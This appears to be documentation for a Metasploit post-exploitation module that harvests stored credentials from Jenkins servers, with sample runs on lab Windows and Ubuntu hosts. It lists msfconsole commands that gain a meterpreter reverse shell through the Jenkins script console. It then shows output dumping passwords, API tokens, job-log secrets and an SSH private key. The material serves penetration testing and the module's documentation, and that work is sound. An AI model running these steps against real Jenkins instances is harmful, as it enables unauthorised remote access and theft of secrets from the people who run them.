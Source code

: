 ## Vulnerable Application

  Official Source:
[Jenkins](https://jenkins.io/download/)

This module has been verified against:

  1. Jenkins 2.67 on Ubuntu 16.04 in Docker
  1. Jenkins 2.67 on Windows 7 SP 1
  1. Jenkins 2.60.1
  1. Jenkins 1.56

## Verification Steps

  1. Set up Jenkins to obtain a shell (use Docker for quick setup)
  1. Run `docker run -p 8080:8080 -p 50000:50000 jenkins`
  1. Use the default setup and install "suggested plugins"
  1. Create new user admin, add a user or credential (via Manage Jenkins)
  1. Start msfconsole
  1. We'll use the `jenkins_script_console` module to quickly gain a shell
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST 172.17.0.1```
  1. Do: ```set RPORT 8080```
  1. Do: ```set TARGETURI /```
  1. Do: ```set USERNAME admin```
  1. Do: ```set PASSWORD or set API_TOKEN```
  1. Do: ```set TARGET 1```
  1. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
  1. Do: ```set LHOST 192.168.56.105```
  1. Do: ```exploit -j```
  1. Do: ```use post/multi/gather/jenkins_gather```
  1. Do: ```set SESSION 1```
  1. Do: ```run```
  1. You should see the saved credentials output

## Options

  **SEARCH_JOBS**

  This option searches through the `jobs` folder for interesting
keywords but obviously increases runtime on larger instances.

  **STORE_LOOT**

  This option saves interesting files and loot to disk. If set to
false will simply output data to console.

  **JENKINS_HOME**
  This option can be set if we want to specify where the Jenkins
data resides.

## Scenarios

**Jenkins on Windows**

```
msf post(jenkins_gather) > sessions

Active sessions
===============

  Id  Type                     Information                   Connection
  --  ----                     -----------                   ----------
  18  shell x86/linux                                        192.168.56.105:4444 -> 192.168.56.1:58828 (172.17.0.1)
  20  meterpreter x86/linux    uid=0, gid=0, euid=0, egid=0  192.168.56.105:4444 -> 192.168.56.1:58974 (172.17.0.2)
  21  meterpreter x86/windows  NT AUTHORITY\SYSTEM @ kali    192.168.56.105:4444 -> 192.168.56.101:50427 (192.168.56.101)
  23  shell x86/windows                                      192.168.56.105:4444 -> 192.168.56.101:50793 (192.168.56.101)

msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch: 
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  JENKINS_HOME                 no        Set to the home directory of Jenkins. Linux versions default to /var/lib/jenkins, but C:\\Windows\\System32\\config\\systemprofile\\AppData\\Local\\Jenkins.jenkins on Windows.
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user 
  tokens, SSH keys, and secrets. Interesting files will be stored in 
  loot along with combined csv output.


msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at C:\Program Files\Jenkins
[+] Credentials found - Username: user1 Password: Password123456
[+] SSH Key found! ID: 83c6a18f-6b35-420a-8534-cc505c3347b5 Passphrase: secretpassphrase123 Username: sshkey1 Description: interesting description
[+] Job Info found  - Job Name:  User: testpass Password: secretpass123
[+] Job Info found  - Job Name:  User: testpass Password: ohwowosupersecret
[+] Node Info found - Name: test Host: hostnode1.lab.local Port: 22 CredID: 972fc428-dd7c-46ea-a119-be78ae0866ad
[+] API Token found - Username: admin Token: 8a114e0fa48c1a489c39b98e94c986c8
[+] API Token found - Username: useruseruser Token: 6810c3f6ccca939ac2a8b8ac4b9de012
[*] Searching through job history for interesting bits...
[+] Job Log truffles:
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:"secret is secret"
...
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:"secret is secret"
[+] 
Creds
=====

 Username  Password           Description
 --------  --------           -----------
                                          
 testpass  secretpass123                   
 testpass  ohwowosupersecret  
 user1     Password123456     

[+] 
API Keys
========

 Username      API Tokens
 --------      ----------
 admin         8a114e0fa48c1a489c39b98e94c986c8
 useruseruser  6810c3f6ccca939ac2a8b8ac4b9de012

[+] 
Nodes
=====

 Node Name  Hostname             Port  Description   Cred Id
 ---------  --------             ----  -----------   -------
 test       hostnode1.lab.local  22    testtesttest  972fc428-dd7c-46ea-a119-be78ae0866ad

[+] SSH Key
[*]  ID: 83c6a18f-6b35-420a-8534-cc505c3347b5
[*]  Description: interesting description
[*]  Passphrase:  secretpassphrase123
[*]  Username:    sshkey1
[*] 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAuTfL0ijR0JDLTQC092ZolnkTJGRi7YQInK/K1ZFDFc44JOSU
...snip...
7Ad+Ja6+51ECnXJIFKPj7binB6/C10YVqHh4KON3DeA6ZA7ZpUko
-----END RSA PRIVATE KEY-----

[*] Post module execution completed


```

**Jenkins 2.67 on Ubuntu 16.04**

```
msf post(jenkins_gather) > set session 20
session => 18
msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch:
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user
  tokens, SSH keys, and secrets. Interesting files will be stored in
  loot along with combined csv output.

msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at /root/.jenkins
[+] Credentials found - Username: thanksforthefish Password: whatagreatbook
[+] API Token found - Username: user1 Token: 859e1d6ee6ab85804434fa5395ab962d
[+] API Token found - Username: admin Token: 9da706c125a4b5a4c19b1f799723175c
[*] Searching through job history for interesting bits...
[+] 
Creds
=====

 Username          Password         Description
 --------          --------         -----------
 thanksforthefish  whatagreatbook

[+] 
API Keys
========

 Username  API Tokens
 --------  ----------
 admin     9da706c125a4b5a4c19b1f799723175c
 user1     859e1d6ee6ab85804434fa5395ab962d

[*] Post module execution completed
```
